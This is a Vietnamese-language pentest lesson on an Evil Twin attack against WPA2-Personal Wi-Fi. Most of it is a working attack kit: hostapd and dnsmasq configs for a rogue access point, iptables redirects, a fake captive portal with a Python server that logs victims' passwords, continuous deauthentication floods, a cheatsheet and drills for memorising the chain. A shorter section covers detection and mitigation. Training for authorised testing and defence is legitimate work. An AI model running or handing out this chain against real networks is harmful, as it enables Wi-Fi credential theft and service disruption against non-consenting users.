

> **Prerequisites**: [[01-802.11-protocol-internals|01. 802.11 Protocol Internals]] · [[02-wireless-lab-setup|02. Wireless Lab Setup]]
> **Objectives**:
> - Thực hiện full Evil Twin attack chain trên WPA2-Personal từ recon đến credential harvest
> - Cấu hình hostapd, dnsmasq, iptables và captive portal thủ công
> - Hiểu cách dùng automated frameworks (Fluxion, Airgeddon)
> - Nhận biết bypass khi AP target dùng WPA3 (mixed mode)

---

## Điều kiện khai thác

> [!note] Điều kiện bắt buộc
> - Wireless adapter hỗ trợ monitor mode + injection (wlan0mon) và AP mode (wlan1)
> - Target AP dùng WPA2-Personal (PSK) — không áp dụng trực tiếp với WPA3-only
> - Ở trong range của target AP và clients
> - Client phải connect vào rogue AP (tự nguyện qua signal mạnh hơn, hoặc bị ép qua deauth)

> [!tip] Tại sao attack này hiệu quả?
> WPA2-Personal không authenticate AP với client. Khi client connect vào open rogue AP có cùng SSID, họ thấy "captive portal" và nhập password WiFi — vì nghĩ đây là portal xác thực thật sự. Attacker capture password plaintext từ form submit.

---

## Cơ chế tấn công

![[img-03-evil-twin-topology.svg]]
*Hình 1: Evil Twin full topology — deauth, rogue AP, captive portal, credential harvest*

### Tại sao Captive Portal hoạt động?

Khi client mất kết nối AP thật và connect vào rogue AP mở (không password), họ thấy mạng WiFi không có internet. Rogue AP điều hướng toàn bộ HTTP traffic đến captive portal giả mạo trông giống trang xác thực của router/ISP.

Quy trình kỹ thuật:

1. **hostapd**: Tạo rogue AP với cùng SSID, không password (open network hoặc WPA2 open)
2. **dnsmasq**: Đóng vai DHCP server cấp IP cho client + DNS server redirect mọi query về attacker IP
3. **iptables**: NAT routing, redirect HTTP (80) và HTTPS (443) về captive portal
4. **nginx / Python server**: Host captive portal page — form giả mạo yêu cầu nhập WiFi password
5. **aireplay-ng**: Deauth clients khỏi AP thật → client buộc kết nối vào rogue AP

### Vì sao client nhập password?

Victim thấy: mạng WiFi đã kết nối, nhưng không có internet → pop-up captive portal → nghĩ ISP/router yêu cầu xác thực lại → nhập password WiFi → credential bị capture.

> [!warning] OPSEC Note
> Rogue AP **nên là open network** (không password) để client tự động connect. Nếu set WPA2 với password giả, client sẽ thất bại authentication và không connect.

---

## Quy trình tấn công

**Môi trường giả định**: Target SSID `Corp-WiFi`, BSSID `AA:BB:CC:DD:EE:FF`, Channel 6. Adapter wlan0 (monitor), wlan1 (AP mode).

### Bước 1 — Reconnaissance

```bash
# Enable monitor mode
sudo airmon-ng check kill
sudo airmon-ng start wlan0

# Scan để tìm target
sudo airodump-ng wlan0mon
```

> **Expected output**: Danh sách APs với BSSID, PWR, Beacons, #Data, CH, ENC, CIPHER, AUTH, ESSID. Xác định BSSID và channel của target.

```bash
# Lock channel, capture detail và clients
sudo airodump-ng wlan0mon -c 6 --bssid AA:BB:CC:DD:EE:FF
```

> **Expected output**: Target AP row + STATION column liệt kê MAC của connected clients.

### Bước 2 — Cấu hình Rogue AP (hostapd)

```bash
# Tạo hostapd config
cat > /tmp/hostapd-evil.conf << 'EOF'
interface=wlan1
driver=nl80211
ssid=Corp-WiFi
hw_mode=g
channel=6
macaddr_acl=0
ignore_broadcast_ssid=0
EOF

# Bật rogue AP
sudo hostapd /tmp/hostapd-evil.conf &
```

> **Expected output**: `wlan1: AP-ENABLED` — rogue AP đang chạy.

### Bước 3 — Cấu hình DHCP + DNS (dnsmasq)

```bash
# Set IP cho rogue AP interface
sudo ip addr add 192.168.2.1/24 dev wlan1
sudo ip link set wlan1 up

# Tạo dnsmasq config
cat > /tmp/dnsmasq-evil.conf << 'EOF'
interface=wlan1
dhcp-range=192.168.2.10,192.168.2.250,12h
dhcp-option=3,192.168.2.1
dhcp-option=6,192.168.2.1
server=8.8.8.8
log-queries
log-dhcp
address=/#/192.168.2.1
EOF
# address=/#/192.168.2.1 → redirect MỌI DNS query về attacker IP

# Chạy dnsmasq
sudo dnsmasq -C /tmp/dnsmasq-evil.conf --no-daemon &
```

> **Expected output**: `dnsmasq: started` — DHCP và DNS redirect đang chạy.

### Bước 4 — NAT Routing và HTTP Redirect (iptables)

```bash
# Enable IP forwarding
sudo sysctl net.ipv4.ip_forward=1

# NAT: forward traffic từ wlan1 ra eth0 (internet)
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
sudo iptables -A FORWARD -i wlan1 -j ACCEPT

# Redirect HTTP và HTTPS về captive portal (port 8080)
sudo iptables -t nat -A PREROUTING -i wlan1 -p tcp --dport 80 -j DNAT --to-destination 192.168.2.1:8080
sudo iptables -t nat -A PREROUTING -i wlan1 -p tcp --dport 443 -j DNAT --to-destination 192.168.2.1:8080
```

### Bước 5 — Captive Portal (Python HTTP Server)

```bash
# Tạo fake captive portal
mkdir -p /tmp/portal
cat > /tmp/portal/index.html << 'EOF'
<!DOCTYPE html>
<html>
<head><title>Corp-WiFi — Network Authentication</title></head>
<body>
<h2>Corp-WiFi Authentication Required</h2>
<p>Please enter your WiFi password to continue.</p>
<form method="POST" action="/capture">
  <input type="password" name="password" placeholder="WiFi Password" required/>
  <input type="submit" value="Connect"/>
</form>
</body>
</html>
EOF

# Simple credential capture server (Python)
cat > /tmp/portal/capture.py << 'EOF'
from http.server import HTTPServer, BaseHTTPRequestHandler
from urllib.parse import parse_qs, urlparse
import datetime

class CaptiveHandler(BaseHTTPRequestHandler):
    def do_GET(self):
        self.send_response(200)
        self.end_headers()
        with open('/tmp/portal/index.html', 'rb') as f:
            self.wfile.write(f.read())
    def do_POST(self):
        length = int(self.headers['Content-Length'])
        data = parse_qs(self.rfile.read(length).decode())
        password = data.get('password', [''])[0]
        print(f"[{datetime.datetime.now()}] CAPTURED: {password}")
        with open('/tmp/captures.txt', 'a') as f:
            f.write(f"{datetime.datetime.now()} | {self.client_address[0]} | {password}\n")
        self.send_response(302)
        self.send_header('Location', 'http://google.com')
        self.end_headers()
    def log_message(self, format, *args):
        pass

HTTPServer(('192.168.2.1', 8080), CaptiveHandler).serve_forever()
EOF

sudo python3 /tmp/portal/capture.py &
```

### Bước 6 — Deauthentication Attack

```bash
# Deauth tất cả clients khỏi target AP (continuous flood)
# wlan0mon phải ở đúng channel của target (-c 6)
sudo airodump-ng wlan0mon -c 6 --bssid AA:BB:CC:DD:EE:FF &
sudo aireplay-ng --deauth 0 -a AA:BB:CC:DD:EE:FF wlan0mon

# Deauth một client cụ thể
sudo aireplay-ng --deauth 0 -a AA:BB:CC:DD:EE:FF -c CLIENT_MAC wlan0mon
```

> **Expected output**: `Sending 64 directed DeAuth. STMAC: [CLIENT_MAC]` — clients disconnect và reconnect vào rogue AP.

### Bước 7 — Harvest Credentials

```bash
# Theo dõi captures
watch -n 1 cat /tmp/captures.txt

# Hoặc tail real-time
tail -f /tmp/captures.txt
```

> **Expected output**: `2026-04-01 10:23:45 | 192.168.2.15 | MyWiFiP@ssword123` — credential bị capture.

---

## Biến thể & Bypass

### Automated Frameworks

**Fluxion** — automated Evil Twin với captive portal đẹp hơn:

```bash
git clone https://github.com/FluxionNetwork/fluxion
cd fluxion
sudo bash fluxion.sh
# Follow interactive menu: scan → select target → select attack type → launch
```

**Airgeddon** — multi-purpose wireless attack framework:

```bash
git clone https://github.com/v1s1t0r1sh3r3/airgeddon
cd airgeddon
sudo bash airgeddon.sh
# Menu: Evil Twin → WPA/WPA2 Personal → chọn AP → launch
```

> [!tip] Manual vs Automated
> Manual (hostapd + dnsmasq) cho phép customize tốt hơn và hiểu rõ cơ chế. Automated frameworks tốt cho speed trong engagement nhưng ít flexible. Thi OSCP/CWPE nên biết cả hai.

### WPA3 Downgrade (Mixed Mode)

Nếu target AP dùng WPA3/WPA2 mixed mode:

```bash
# Rogue AP vẫn dùng WPA2 (open hoặc WPA2-Personal)
# Client hỗ trợ WPA2 có thể connect mà không cần SAE
# Cần confirm AP target có bật mixed mode (WPA3 + WPA2 coexistence)
```

> [!warning] WPA3-only với PMF bắt buộc
> Nếu target pure WPA3-SAE với PMF mandatory, deauth attack thất bại. Phải dùng MANA Loud Mode + collision AP hoặc kỹ thuật WPA3-specific (xem Lesson 04).

### Verify Password Tự Động

Sau khi capture, verify password trước khi kết thúc engagement:

```bash
# Verify password bằng cách handshake với AP thật
# (cần capture handshake trước trong bước recon)
aircrack-ng -w /tmp/captures.txt capture.cap
# Nếu password đúng: "KEY FOUND! [MyWiFiP@ssword123]"
```

---

## Cây quyết định



---

## Command Cheatsheet

**Recon**

```bash
sudo airmon-ng check kill
sudo airmon-ng start wlan0
sudo airodump-ng wlan0mon
sudo airodump-ng wlan0mon -c <CH> --bssid <BSSID> -w capture
```

**Rogue AP (hostapd)**

```bash
# /tmp/hostapd-evil.conf
# interface=wlan1 / driver=nl80211 / ssid=TARGET_SSID / hw_mode=g / channel=CH

sudo hostapd /tmp/hostapd-evil.conf
```

**DHCP + DNS (dnsmasq)**

```bash
sudo ip addr add 192.168.2.1/24 dev wlan1
# dnsmasq.conf: interface=wlan1 / dhcp-range= / address=/#/192.168.2.1
sudo dnsmasq -C /tmp/dnsmasq-evil.conf
```

**Routing (iptables)**

```bash
sudo sysctl net.ipv4.ip_forward=1
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
sudo iptables -A FORWARD -i wlan1 -j ACCEPT
sudo iptables -t nat -A PREROUTING -i wlan1 -p tcp --dport 80 -j DNAT --to-destination 192.168.2.1:8080
sudo iptables -t nat -A PREROUTING -i wlan1 -p tcp --dport 443 -j DNAT --to-destination 192.168.2.1:8080
```

**Deauthentication**

```bash
# Flood tất cả clients
sudo aireplay-ng --deauth 0 -a <BSSID> wlan0mon

# Target một client
sudo aireplay-ng --deauth 0 -a <BSSID> -c <CLIENT_MAC> wlan0mon
```

**Cleanup**

```bash
sudo iptables -F && sudo iptables -t nat -F
sudo airmon-ng stop wlan0mon
sudo systemctl start NetworkManager
```

---

## Daily Drill

**Thời gian**: 15–20 phút/ngày trong 7 ngày đầu.

**Drill 1 — Recon và identify target**
Mục tiêu: gõ airodump-ng commands không cần nhìn cheatsheet.

```bash
sudo airmon-ng check kill
sudo airmon-ng start wlan0
sudo airodump-ng wlan0mon
sudo airodump-ng wlan0mon -c 6 --bssid AA:BB:CC:DD:EE:FF
```

Luyện cho đến khi: hoàn thành recon phase trong dưới 2 phút, không mở cheatsheet.

**Drill 2 — Hostapd + dnsmasq config từ đầu**
Mục tiêu: viết cả hai config files không cần reference.

```bash
# Viết /tmp/hostapd-evil.conf từ memory
# Viết /tmp/dnsmasq-evil.conf từ memory (đặc biệt nhớ address=/#/IP)
```

Luyện cho đến khi: viết đúng cả hai config trong dưới 3 phút.

**Drill 3 — Iptables NAT chain**
Mục tiêu: nhớ đúng syntax iptables cho captive portal redirect.

```bash
sudo sysctl net.ipv4.ip_forward=1
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
sudo iptables -A FORWARD -i wlan1 -j ACCEPT
sudo iptables -t nat -A PREROUTING -i wlan1 -p tcp --dport 80 -j DNAT --to-destination 192.168.2.1:8080
```

Luyện cho đến khi: 4 lệnh iptables gõ đúng hoàn toàn không nhìn notes.

**Drill 4 — Full attack chain timed**
Mục tiêu: recon → rogue AP → deauth → harvest trong dưới 10 phút.

Luyện cho đến khi: không cần mở bất kỳ cheatsheet nào trong suốt flow.

---

## Phát hiện & Phòng thủ

> [!warning] Detection Indicators
> **Client side**: Yêu cầu nhập WiFi password qua captive portal là DẤU HIỆU đỏ — network thật không bao giờ hỏi password WiFi qua web.
>
> **Network side**: Hai APs broadcast cùng SSID với BSSID khác nhau → Rogue AP detection. IDS/IPS wireless (WIPS) alert ngay.
>
> **Log indicators**: DHCP leases từ unknown MAC, deauth flood trong wireless logs.
>
> **SIEM**: Multiple deauth frames từ single MAC trong short timeframe.

> [!note] Mitigation
> - Enable 802.11w/PMF (Protected Management Frames) — ngăn deauth attack
> - Dùng Wireless Intrusion Prevention System (WIPS) — Cisco Adaptive WIPs, Aruba RFProtect
> - Train users: không nhập WiFi password qua captive portal bất ngờ
> - Sử dụng certificate-based auth (WPA-Enterprise) thay PSK
> - Network monitoring: alert khi thấy duplicate SSID + BSSID mới

---

## Lab Thực hành

| Platform | Machine / Module | Tại sao phù hợp |
|----------|---------|----------------|
| HTB Academy | **Wi-Fi Evil Twin Attacks** | Dedicated module với cloud wireless lab, WPA2 captive portal section |
| HTB Academy | **Wi-Fi Penetration Testing Tools & Techniques** | Broader context + Fluxion/Airgeddon practice |
| Local VMs | 2 VMs (Kali + Windows victim) + USB adapter | Reproduce toàn bộ attack chain tự do |
| HTB Academy | **Attacking Corporate Wi-Fi Networks** | Full pentest simulation từ recon đến AD compromise |

---

## Field Manual Entry

> [!abstract] Evil Twin WPA2 — Quick Reference
> **Điều kiện**: WPA2-PSK target; dual wireless adapter; clients phải connect vào rogue AP
> **Lệnh nhanh**: `hostapd evil.conf` + `dnsmasq -C dns.conf` + `aireplay-ng --deauth 0 -a BSSID wlan0mon`
> **Full flow**: airmon-ng → airodump-ng (recon) → hostapd (rogue AP) → dnsmasq (DHCP/DNS) → iptables (redirect) → captive portal → deauth → harvest
> **Look for**: POST request từ victim đến portal với password field
> **Detection**: Duplicate SSID/BSSID alerts, captive portal không expect
> **Ref**: [[03-evil-twin-wpa2-personal|03. Evil Twin WPA2-Personal]]
